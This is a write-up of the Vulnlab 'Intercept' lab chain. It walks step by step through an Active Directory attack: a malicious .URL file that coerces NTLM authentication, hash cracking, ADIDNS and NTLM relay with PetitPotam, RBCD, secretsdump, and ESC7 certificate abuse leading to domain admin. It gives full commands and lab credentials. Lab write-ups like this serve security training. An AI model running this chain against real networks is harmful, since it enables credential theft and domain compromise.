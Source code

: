 ```yaml
---
title: Vulnlab Chain - Intercept
date: 2024-02-19
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Chain - Intercept
Intercept is a hard rated chain which contains two machines WS01 and DC01. The chain starts with forced authentication using a file upload to grab a users hash. Using this used we performed the Resourced Based Contrained Delegation (RBCD) WebClient attack to escalate privileges. Finally using ESC7 we elevate privileges to Domain Admin.

![_install](/assets/img/VL-Intercept/intercept_slide.png)

## Initial Access
Added the following to the /etc/hosts file:
```bash
10.10.185.69 intercept.vl
10.10.185.69 DC01.intercept.vl
10.10.185.70 WS01.intercept.vl
```

I started off using some nmap scans and quickly noticed  that it was possible to access the dev share using a null session.

![_install](/assets/img/VL-Intercept/null_session_dev.png)

I entered the share using null authentication and looked through the directories.

![_install](/assets/img/VL-Intercept/null_session_dev2.png)

I noticed that the "readme.txt" file says that the share is checked regulary for updates for the application. This for me was a big indicator for forced authenticated using a file upload. I created a malcious .URL file:
```bash
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.8.0.49\%USERNAME%.icon
IconIndex=1
```
And uploaded it to the share using an smbclient session:

![_install](/assets/img/VL-Intercept/file_upload.png)

Next up is setting up responder with a SMB listener to get the NTLMv2 hash of the Kathryn.Spencer Domain User:

![_install](/assets/img/VL-Intercept/responder.png)

We can't relay the connection to the Domain Controller before SMB Signing is enabled by default. However I always check this to make sure.

![_install](/assets/img/VL-Intercept/signing_enabled.png)

So instead of relaying the connection lets try to check it using hashcat. I put the contents of the hash in a file called hash.txt and ran it against rockyout.txt like so:
```bash
hashcat -a 0 -m 5600 hash.txt /opt/rockyou.txt
```
This succesfully recovered the password which ended up being "Choclate1". 
![_install](/assets/img/VL-Intercept/cracked_hash.png)

## Domain Enumeration
Now that we have a valid Domain user we can enumerate the domain using bloodhound. Let's run the python remote ingestor to collect some data:
```bash
bloodhound.py -d intercept.vl -v --zip -c All -dc DC01.intercept.vl -ns 10.10.185.69 -u 'Kathryn.spencer' -p 'Chocolate1' --dns-timeout 10
```
![_install](/assets/img/VL-Intercept/bloodhound.png)

The user kathryn.spencer doesn't have any interesting outbound permissions.
![_install](/assets/img/VL-Intercept/bloodhound_enum.png)

I enumerated the Domain more and figured out that the MachineAccountQuota has the default setting of "10".
![_install](/assets/img/VL-Intercept/maq.png)

And also figured out that the Domain Controller doesn't have LDAP Signing enforced:
![_install](/assets/img/VL-Intercept/ldap_signing.png)

If the WebDAV service is also enabled we can perform an RBCD WebClient attack using coerced authentication such as PetitPotam. Lets check if the WebDAV service is active using netexec:
![_install](/assets/img/VL-Intercept/webdav_client.png)

## RBCD to Local Administrator
Now that we know that the WebDAV service is enabled on WS01, LDAP Signing is disabled on the DC and we can add machine accounts to the domain we can abuse this in combination with coerced authentcation to escalate privileges. However when relaying out coercion authentication and add RBCD permissions to WS01 the authenticated connection has to come from a trusted intranet zone. Luckly for us by default the "Authenticated Users" group can create child objects on the ADIDNS zone. Lets start off the attack by create a new A-record which points to our machine using dnstool.py:
```bash
dnstool.py -u 'intercept\kathryn.spencer' -p 'Chocolate1' -a add -r kali -d 10.8.0.49 10.10.185.69
```
![_install](/assets/img/VL-Intercept/dnstool.png)
Next is starting ntlmrelayx for relaying the coerced authentication:
```bash
ntlmrelayx.py -t ldaps://10.10.185.69 --delegate-access --http-port 8080 -smb2support
```
![_install](/assets/img/VL-Intercept/ntlmrelayx.png)
Finishing off we coerce authenticated using PetitPotam to our created DNS record which is in trusted intranet zone which gets relayed to the Domain Controller to allow impersonation on WS01$ via S4U2Proxy. We can trigger the coercion using:
```bash
petitpotam.py -d "intercept.vl" -u "kathryn.spencer" -p "Chocolate1" kali@8080/a 10.10.185.70
```
![_install](/assets/img/VL-Intercept/petitpotam.png)

And if we now take a look at ntlmrelayx we see that a new computer has been created which allows us the impersonate users via S4U2Proxy:
![_install](/assets/img/VL-Intercept/relay_ok.png)

Next we request a TGT for the CIFS service as the Administrator on the WS01 computer using getST.py:
```bash
getST.py -spn cifs/WS01.intercept.vl -dc-ip 10.10.185.69 -impersonate administrator intercept.vl/PMZKVLGA$:'.Wpkn,gC7Xpd}9S'
```
![_install](/assets/img/VL-Intercept/TGT.png)

Now we export the TGT in memory and run secretsdump.py to obtains logon information.
```bash
export KRB5CCNAME=administrator@cifs_WS01.intercept.vl@INTERCEPT.VL.ccache 
secretsdump.py administrator@WS01.intercept.vl -k -no-pass
```
![_install](/assets/img/VL-Intercept/secretsdump1.png)
This reveals the password of the user Simon_Bowen. Lets check bloodhound if this user have any interesting permissions which we can abuse. Lookup at the output we can see that the user is member of the helpdesk groups which has GenericAll permissons on the ca-managers group. 

![_install](/assets/img/VL-Intercept/perms1.png)

Now lets run certipy to find if this group have any intersting permissions:
```bash
certipy find -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69
```
Looking at the output we see that the ca-managers group has ManageCa permission on the Certificate Authority which makes it vulnerable to ESC7
![_install](/assets/img/VL-Intercept/esc7.png)

## AD CS Misconfiguration (ESC7)
To be able to abuse ESC7 we first need to add Simon.Bowen to the ca-managers group. This is possible because the group that he is part of (helpdesk) has GenericAll permissions on the group. We can add Simon to the group using net rpc:
```bash
net rpc group addmem 'ca-managers' 'Simon.Bowen' -U intercept.vl/Simon.Bowen -S DC01.intercept.vl 
```
To verify the user has been succesfully added to the group I re-ran bloodhound a confirmed Simon.Bowen is now part of the ca-managers group:
![_install](/assets/img/VL-Intercept/perms2.png)

Now that we have suffient permissions we can perform the ESC7 attack on the AD CS. First I added myself the Managed Certificated accces right by adding myself as a new officer:
```bash
 certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.183.85 -ca intercept-DC01-CA -add-officer simon.bowen
```
![_install](/assets/img/VL-Intercept/esc7-p1.png)
Now we check if the SubCA template can be enabled on the CA using the -enable-template parameter. By default the SubCA template is enabled.
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -list-template
```
![_install](/assets/img/VL-Intercept/esc7-p2.png)
Now that we have all the prerequisites for this attack we can start by request a certificate based on the SubCA template. This request will be benied but we will save the private key and note down the request ID:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -template 'SubCA' -upn administrator@intercept.vl -target intercept.vl
```
![_install](/assets/img/VL-Intercept/esc7-p3.png)

Having the manage certificate rights we can validate the failed request since we have the key:
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -issue-request 5
```
![_install](/assets/img/VL-Intercept/esc7-p4.png)
Now that we certificate is issued we can retrieve the administrator's certificate:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -target intercept.vl -retrieve 5
```
![_install](/assets/img/VL-Intercept/esc7-p5.png)

Now that we have a certificate of the administrator we can use it to authenticate and retrieve the NT hash:
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.185.69 -domain intercept.vl -username administrator
```
![_install](/assets/img/VL-Intercept/esc7-p6.png)

We can use this hash to gain access the the DC using netexec:
```
nxc smb DC01.intercept.vl -u Administrator -H ad95c338a6cc5729ae7390acbe0ca91f -x whoami
```
![_install](/assets/img/VL-Intercept/da_access.png)











